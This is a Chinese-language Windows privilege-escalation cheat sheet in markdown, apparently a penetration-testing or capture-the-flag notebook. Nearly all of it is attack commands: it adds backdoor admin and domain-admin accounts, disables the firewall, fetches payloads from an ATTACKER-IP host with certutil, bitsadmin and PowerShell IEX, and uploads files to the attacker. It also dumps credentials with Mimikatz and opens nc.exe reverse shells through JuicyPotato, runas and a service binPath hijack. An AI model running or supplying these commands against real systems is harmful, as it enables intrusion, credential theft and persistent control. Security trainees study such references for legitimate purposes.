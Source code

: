 
### 常用工具

* https://lolbas-project.github.io/



### 信息收集


```bash
chdir
whomai /priv
query user
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
tasklist /SVC
tree /A /F
ipconfig /all
schtasks /query /fo LIST /v
wmic service get name,displayname,pathname,startmode
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows"

dir /r
attrib *.* -h -s /s /d
findstr /si password *.xml *.ini *.txt+
where /R C:\\ proof.txt or where /R C:\\ local.txt

net user
net groups
net user 0x584a 0x584a /add
net localgroup "Remote Desktop Users" "0x584a" /add
net localgroup "Administrators" "0x584a" /add


net users /domain
net groups /domain
net user 0x584a 0x584a /add /domain /y
net group "domain controllers" /domain
net group "domain admins" 0x584a /add

# SPN查询
C:\\Windows\\Temp>setspn -q */*

for /L %i in (1,1,255) do @ping -n 1 -w 200 10.10.10.%i > nul && echo 10.10.10.%i is up.

cmdkey /list

type proof.txt && whoami && hostname && ipconfig
cat proof.txt && whoami && hostname && ip addr


dir /r ---> hm.txt:root.txt:$DATA
more < hm.txt:root.txt

# 显示或修改文件的访问控制列表
icacls or cacls
icacls "C:\path"
```



### 常用服务路径

```bash
c:\\Windows\\Temp
c:\\windows\\system32\\cmd.exe
(64-bit) C:\windows\system32\WindowsPowerShell
(32-bit) C:\windows\SysWOW64\WindowsPowerShell
C:\\Windows\\SysNative\\WindowsPowerShell\\v1.0\\PowerShell.exe
SAM文件的路径是 %SystemRoot%\system32\config\sam
```



### 安全防护配置

```bash
# 查看防火墙状态
netsh firewall show state
# 关闭防火墙
netsh firewall set opmode mode=disable

netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all
netsh advfirewall show allprofiles
netsh advfirewall firewall set allprofiles state=off
netsh firewall set opmode disable
```



### 文件传递

```bash
certutil -urlcache -f http://0.0.0.0/shell2.php shell2.php
certutil.exe -urlcache -split -f "http://<ATTACKER-IP>:<PORT>/<file>" exploit.exe

bitsadmin /transfer mydownloadjob /download /priority normal http://<ATTACKER-IP>/xyz.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\xyz.exe

cscript wget.vbs <ATTACKER IP>/<FILE> evil.exe

cmd> Python Server Web Service
powershell> Invoke-WebRequest "http://0.0.0.0/winPEASx64.exe" -OutFile "winPEASx64.exe"

# 加载远程脚本模块
powershell> IEX (New-Object Net.WebClient).DownloadString('http://0.0.0.0/Invoke-Kerberoast.ps1')
powershell> IEX (New-Object Net.WebClient).DownloadString('http://0.0.0.0/Invoke-Mimikatz.ps1')
powershell> Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonPasswords full"'
powershell> Invoke-Mimikatz -DumpCreds

# 发送文件
<?php $uploaddir='/var/www/uploads/'; $uploadfile=$uploaddir . $_FILES['file']['name']; move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)?>
powershell> powershell (New-Object System.Net.WebClient).UploadFile('http://<ATTACKER-IP>:<PORT>/upload.php', 'important.docx')

kali> impacket-smbserver share `pwd`
cmd> copy \\<kali ip >\share\nc.exe .\nc.exe

kali> ftp Server
cmd> ftp <IP> --> get --> put

bash> curl --upload-file linpeas.txt http://<IP>:1337/linpeas.txt   <-- PUT 文件传递
```



### powershell

```bash
Invoke-PowerShellTcp.ps1

powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).downloadString('http://<IP>/Shell.ps1')"

cmd> powershell "IEX(New-Object Net.WebClient).downloadString('http://<IP>/s.ps1')"
cmd> powershell -executionpolicy bypass -file s.ps1

cmd> powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-MS16-032.ps1');Invoke-MS16-032 -Application cmd.exe -commandline 'c:\\windows\\temp\\nc.exe -e cmd <IP> 9900'"
```



### RUNAS

```bash
runas /user:<localmachinename>\administrator cmd

$secpasswd = ConvertTo-SecureString "0x584a" -AsPlainText -Force 
$mycreds = New-Object System.Management.Automation.PSCredential ("Administrator",$secpasswd) 
$computer = "computer" 
[System.Diagnostics.Process]::Start("C:\Users\Public\nc.exe","<ATTACKER-IP> <PORT> -e cmd.exe",$mycreds.Username,$mycreds.Password,$computer)
```



### 内核提权枚举、攻击

```bash
https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1
powershell> IEX(New-Object Net.WebClient).DownloadString('http://0.0.0.0/Sherlock.ps1')
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

# exploit只适应x64框架
https://raw.githubusercontent.com/FuzzySecurity/PSKernel-Primitives/master/Sample-Exploits/MS16-135/MS16-135.ps1

windows-exploit-suggester.py --impact "elevation of privilege" systeminfo.txt
```

### 常用工具

* Invoke-PowerShellTcp.ps1
* PowerUp.ps1 --> Invoke-AllChecks
* Seatbelt.exe
* SharpUp.exe
* winPEAS.exe
* Sherlock
* Windows-Exploit-Suggester




### whoami /priv

> SeImpersonatePrivilege 权限下可用工具进行提权：

```bash
juicy-potato*
RogueWinRm
SweetPotato
PrintSpoofer
```



### juicy potato

https://github.com/ohpe/juicy-potato

```bash
.\JuicyPotato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\Windows\Temp\nc.exe -e cmd.exe <kali ip> 9900" -t *

```

Windows 7 Enterprise
Windows 8.1 Enterprise
Windows 10 Enterprise
Windows 10 Professional
Windows Server 2008 R2 Enterprise
Windows Server 2012 Datacenter
Windows Server 2016 Standard



### Print Spoofer

```bash
.\PrintSpoofer.exe -i -c "whoami"


https://github.com/calebstewart/CVE-2021-1675 cve-2021-1675.ps1
在没用 SeImpersonatePrivilege 权限的场景下提权
```


### 术语解析

>  LM Hash & NTLM Hash https://www.anquanke.com/post/id/193149

windows内部是不保存明文密码的，只保存密码的hash。
其中本机用户的密码hash是放在 本地的SAM文件 里面，域内用户的密码hash是存在域控的NTDS.DIT文件 里面。那hash的格式是怎么样的呢?
在Windows系统导出密码的时候，经常看到这样的密码格式
Administrator:500:AAD3B435B51404EEAAD3B435B51404EE:31D6CFE0D16AE931B73C59D7E0C089C0:::
其中的AAD3B435B51404EEAAD3B435B51404EE是LM Hash
31D6CFE0D16AE931B73C59D7E0C089C0是NTLM Hash

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

https://guif.re/windowseop




## 常用版本提权exploit

### Microsoft Windows Server 2008 R2 Datacenter

MS10_092
ms10-059 Chimichurri
MS15-051

### Microsoft Windows 7 Enterprise

ms10-059 Chimichurri

```
cmd> Chimichurri.exe <IP> 9900
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7600 N/A Build 7600
```

### Windows 10.0 Build 17763 x64

PrintSpoofer

### 常用服务提权

```bash
sc.exe config vss binPath="C:\Users\svc-printer\Downloads\nc.exe -e cmd.exe <IP> 9900"
sc.exe stop vss
sc.exe start vss
```
